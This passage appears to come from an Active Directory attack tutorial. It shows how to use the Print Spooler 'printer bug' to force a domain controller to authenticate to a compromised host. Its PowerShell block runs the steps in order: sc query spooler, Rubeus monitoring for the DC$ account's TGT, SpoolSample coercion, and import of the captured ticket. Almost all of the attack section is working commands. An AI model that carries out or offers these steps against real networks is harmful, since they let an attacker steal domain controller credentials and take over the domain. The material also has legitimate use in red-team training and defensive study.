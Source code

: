 ![](./images/9.png#pic_center)

#### In combination with printer vulnerabilities

Force the host running the Print Service (`Print Spooler`) to initiate a `Kerberos` or `NTLM` authentication request to the target host.

Conditions of use:
- Requires `Administrator` permission

```powershell
# Check whether the printing service is enabled | View on domain control
sc query spooler

# Use Rubeus to listen for tickets from domain control
Rubeus.exe monitor /interval:2 /filteruser:DC$

# Use the SpoolSample tool to perform printer vulnerability exploitation, perform forced verification, and connect to the TGT of the domain control machine account. You need to use the domain user to run SpoolSample, and you need to close the firewalls on both sides.
runas /user:hack.local\UDUser powershell
SpoolSample.exe DC WIN-WEB

# Rubeus listens to the ticket and imports the ticket
```